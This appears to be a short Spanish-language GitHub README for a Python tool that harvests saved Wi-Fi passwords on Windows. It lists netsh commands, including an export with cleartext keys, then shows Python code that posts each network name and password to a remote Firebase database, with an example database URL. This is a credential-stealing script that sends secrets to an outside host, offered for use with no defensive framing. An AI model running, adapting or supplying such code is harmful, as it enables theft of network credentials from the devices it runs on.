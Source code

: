 # Python-Wi-Fi
Obtener contraseñas Wi-Fi

Al archivo WiFi.py ejecuta los comandos en la consola de windows
```
netsh wlan show profile
netsh wlan show networks
netsh wlan export profile key=clear
```


Lo que deja ver las
####redes wifi _guardadas en el dispositivo_ en el que se ejecuta el programa.
Después crea un archivo .xml por cada wifi, el programa encuentra en ese archivo las redes que tienen la contraseña visible y pasa toda esa informacion a una base de datos de firebase.

```python
db = firebase.FirebaseApplication('REALTIME DATABASE URL')
data = {"Wi-Fi": wifi_names[index],"Password": passwords[index]}
datos = db.post("/wifi's", data)
```
### Ejemplo de URL:
```python
db = firebase.FirebaseApplication('https://miproyecto-default-rtdb.firebaseio.com/')
```
